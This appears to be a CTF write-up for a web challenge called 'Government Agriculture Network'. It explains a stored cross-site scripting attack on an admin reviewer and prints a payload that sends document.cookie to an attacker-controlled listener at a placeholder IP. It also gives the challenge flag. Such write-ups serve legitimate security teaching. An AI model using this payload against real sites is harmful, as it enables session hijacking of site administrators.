 # Government Agriculture Network (web)

## Prompt

Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here.

Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.

The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.

You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to rescue it.

## Files

* `xss.txt`: XSS exploit used to get flag.
* `flag.txt`: solution to this challenge.

## Solution 

Heading to https://govagriculture.web.ctfcompetition.com/ shows us this lovely little site:

![Agriculture](images/agriculture.png "Img")

Anytime you see a user input field on a web application in a CTF, there's a good chance that there will be some sort of injection or XSS attack. XSS stands for Cross-Site Scripting and is used to get other visitors of a page to run code that you place on the site. `<script>alert(1)</script>` is the classic test case for XSS, but there are a number of more advanced examples out there in the wild.

What makes this page non-trivial in terms of XSS is that everytime content is submitted, this message is issued:

![Admin](images/admin.png "Img")  

What's interesting about this is that presumably an admin of some sort will look at the content and decide if it's appropriate to be posted. We may not be able to get any visiting user to run our code, but we may be able to get the admin to run it when the admin reviews our post. 

I was very surprised that a beginner's quest would require this, but a publicly facing web server does seem to be required to solve this challenge. The idea is that an administrator on a site will have a cookie that allows privileged access to the site without requiring a login for every single request. If this cookie is used in a request to a malicious site it can be stolen.

There are multiple approaches to setting up a public facing web server/listener and there are a ton of articles on how to do that so I won't go into it. Once you have a listener set up where you can observe requests, a specially crafted XSS string can be sent to the admin.

```
<script type="text/javascript">document.location='http://1.2.3.4:8080?c='+document.cookie;</script>
```

Once the admin opens this, the browser will attempt to fetch a document from our server using the cookie as an argument. Replace `1.2.3.4:8000` with your IP/hostname and port, then click submit! On your server you should see a request that contains the flag!

```
CTF{8aaa2f34b392b415601804c2f5f0f24e}
```
